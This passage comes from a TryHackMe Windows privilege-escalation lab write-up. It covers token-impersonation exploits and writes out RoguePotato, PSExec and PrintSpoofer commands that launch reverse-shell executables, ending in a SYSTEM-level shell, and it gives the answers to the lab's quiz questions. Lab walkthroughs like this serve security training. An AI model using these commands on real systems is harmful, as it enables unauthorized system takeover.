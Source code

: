 C:\PrivEsc\RoguePotato.exe -r 10.10.10.10 -e "C:\PrivEsc\reverse.exe" -l 9999

### Questions[](https://exploitation.tymyrddin.dev/docs/thm/win-privesc#id4 "Permalink to this heading")

**Name one user privilege that allows this exploit to work.**

Answer: `SeImpersonatePrivilege`

**Name the other user privilege that allows this exploit to work.**

Answer: `SeAssignPrimaryTokenPrivilege`

## Token Impersonation - PrintSpoofer[](https://exploitation.tymyrddin.dev/docs/thm/win-privesc#token-impersonation-printspoofer "Permalink to this heading")

Start a listener on Kali. Simulate getting a service account shell by logging into RDP as the admin user, starting an elevated command prompt (Right-click -> Run as Administrator) and using `PSExec64.exe` to trigger the `reverse.exe` executable created with the permissions of the `local service` account:

C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe

Start another listener on Kali. And in the `local service` reverse shell triggered, run the PrintSpoofer exploit to trigger a second reverse shell running with `SYSTEM` privileges (update the IP address with your Kali IP accordingly):

C:\PrivEsc\PrintSpoofer.exe -c "C:\PrivEsc\reverse.exe" -i